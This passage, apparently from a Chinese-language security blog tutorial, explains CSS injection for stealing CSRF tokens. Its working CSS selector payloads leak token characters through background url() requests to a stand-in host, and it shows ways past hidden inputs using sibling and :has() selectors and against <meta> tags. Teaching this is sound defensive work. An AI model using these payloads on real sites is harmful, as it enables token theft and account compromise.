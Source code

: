 ``` css
input[name="csrf-token"][value^="a"] {
  background: url(https://example.com?q=a)
}
```

因為 input 的 type 是 hidden，所以這個元素不會顯示在畫面上，既然不會顯示，那瀏覽器就沒有必要載入背景圖片，因此 server 不會收到任何 request。而這個限制非常嚴格，就算用 `display:block !important;` 也沒辦法蓋過去。

該怎麼辦呢？沒關係，我們還有別的選擇器，像是這樣：

``` css
input[name="csrf-token"][value^="a"] + input {
  background: url(https://example.com?q=a)
}
```

最後面多了一個 `+ input`，這個加號是另外一個選擇器，意思是「選到後面的元素」，所以整個選擇器合在一起，就是「我要選 name 是 csrf-token，value 開頭是 a 的 input，的後面那個 input」，也就是 `<input name="username">`。

所以，真正載入背景圖片的其實是別的元素，而別的元素並沒有 type=hidden，所以圖片會被正常載入。

那如果後面沒有其他元素怎麼辦？像是這樣：

``` html
<form action="/action">
  <input name="username">
  <input type="submit">
  <input type="hidden" name="csrf-token" value="abc123">
</form>
```

以這個案例來說，在以前就真的玩完了，因為 CSS 並沒有可以選到「前面的元素」的選擇器，所以真的束手無策。

但現在不一樣了，因為我們有了 [:has](https://developer.mozilla.org/en-US/docs/Web/CSS/:has)，這個選擇器可以選到「底下符合特殊條件的元素」，像這樣：

``` css
form:has(input[name="csrf-token"][value^="a"]){
  background: url(https://example.com?q=a)
}
```

意思就是我要選到「底下有（符合那個條件的 input）的 form」，所以最後載入背景的會是 form，一樣也不是那個 hidden input。這個 has selector 很新，從上個月底釋出的 Chrome 105 開始才正式支援，目前只剩下 Firefox 的穩定版還沒支援了，詳情可看：[caniuse](https://caniuse.com/css-has)

![caniuse](/img/css-injection-1/p1.png)

有了 has 以後，基本上就無敵了，因為可以指定改變背景的是哪個父元素，所以想怎麼選就怎麼選，怎樣都選得到。

## 偷 meta

除了把資料放在 hidden input 以外，也有些網站會把資料放在 `<meta>` 裡面，例如說 `<meta name="csrf-token" content="abc123">`，meta 這個元素一樣是看不見的元素，要怎麼偷呢？

首先，如同上個段落的結尾講的一樣，`has` 是絕對偷得到的，可以這樣偷：

``` css
html:has(meta[name="csrf-token"][content^="a"]) {
  background: url(https://example.com?q=a);
}
```
